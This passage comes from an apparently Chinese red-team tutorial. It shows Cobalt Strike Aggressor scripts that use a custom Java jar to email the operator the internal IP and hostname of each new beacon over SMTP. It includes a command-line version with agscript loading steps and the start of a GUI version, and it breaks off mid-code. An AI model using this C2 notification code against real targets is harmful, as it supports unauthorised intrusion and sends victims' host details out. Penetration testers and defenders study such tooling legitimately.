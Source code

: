 了解到如何加载java类后通过调用`beacon_initial`方法在新目标上线时执行相应的方法。

```
on beacon_initial {

# 做一些东西
}
```

通过以上知识编写好java类打包成Jar（源代码在下方会提供）提供一个带参数的方法在Aggressor脚本中的beacon_initial方法进行加载从而发送邮件。



## 这里把版本分为了命令行版与GUI版本如下：

### 命令行版代码

```
import email.content.Main from: cna_mail.jar;
on beacon_initial {
# 循环获取所有beacon
#xxxxxxx@163.com 代表接收发送邮箱
#account 代表接收邮箱列表
foreach $entry (beacons()) {

               if($entry['id'] == $1){
@account = @("xxx@163.com","xxx@163.com");

$value = [new Main];
[$value setValue : "xxxxxxx@163.com","password","smtp.163.com",@account,$entry['computer'],"fajianren",,"Target ip:" . $entry['internal'] . " Target host: " . $entry['computer']];
[$value  start];

    }
  }
}
```

命令行版主要作用是在服务器上进行运行运行完成后无需在操作上线即可接收到邮箱内容为`Target ip:xxxx Target host:xxxx`，加载方法如下：

```
./agscript [host] [port] [user] [password] [/path/to/script.cna]
```

[![](https://p0.ssl.qhimg.com/t0158406cb53e805803.png)](https://p0.ssl.qhimg.com/t0158406cb53e805803.png)

在GUI客户端可以查看到ad用户以上线

[![](https://p1.ssl.qhimg.com/t01d41b62585bf6b909.png)](https://p1.ssl.qhimg.com/t01d41b62585bf6b909.png)<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](Documents%20and%20SettingsAdministrator%E6%A1%8C%E9%9D%A2ad.png)**GUI版本代码**

```
import email.content.Main from: cna_mail.jar;
local('$smtp $myEmailAccount $myEmailPassword $Sender @Recipients');

sub stage_attack{

 %options = $3;
$smtp = %options['smtp'];
$myEmailAccount = %options['myEmailAccount'];
$myEmailPassword = %options['myEmailPassword'];
$Sender = %options['Sender'];
 #输入的内容是以,隔开的所以这里有,进行分割
@Recipients = split(',',%options['Recipients']);
 }

```